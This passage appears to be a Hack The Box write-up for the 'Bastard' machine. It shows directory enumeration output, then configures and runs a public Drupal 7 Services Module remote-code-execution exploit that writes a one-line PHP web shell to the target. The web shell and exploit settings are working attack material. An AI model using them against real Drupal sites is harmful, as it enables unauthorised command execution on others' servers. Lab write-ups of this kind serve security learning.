 ```bash
[12:30:37] 403 -    1KB - /root
[12:30:37] 403 -    1KB - /Root
[12:31:51] 301 -  150B  - /scripts  ->  http://bastard.htb/scripts/
[12:31:51] 301 -  150B  - /Scripts  ->  http://bastard.htb/Scripts/
[12:31:59] 403 -    1KB - /search
[12:31:59] 403 -    1KB - /Search
[12:34:40] 301 -  148B  - /sites  ->  http://bastard.htb/sites/
[12:34:40] 301 -  148B  - /Sites  ->  http://bastard.htb/Sites/
[12:39:17] 403 -    1KB - /tag
[12:39:49] 403 -    1KB - /template
[12:40:28] 301 -  149B  - /themes  ->  http://bastard.htb/themes/
[12:40:28] 301 -  149B  - /Themes  ->  http://bastard.htb/Themes/
[12:43:35] 200 -    7KB - /user
[12:47:54] 200 -   42B  - /xmlrpc.php

Task Completed
```

From these `/rest` seems interesting.

So this the rest_endpoint we looking for and its working.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bastard/Untitled%203.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bastard/Untitled%203.png)

I changed some full things in my script.

```php
$url = 'http://bastard.htb';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'wolf.php',
    'data' => '<?php system($_REQUEST["cmd"]); ?>'
];
```

Make sure to run `apt install php-curl` before running the script.

```php
root@kali:~/CTF/HTB/Boxes/Bastard# php 41564.php 
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce

#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://bastard.htb/wolf.php
```

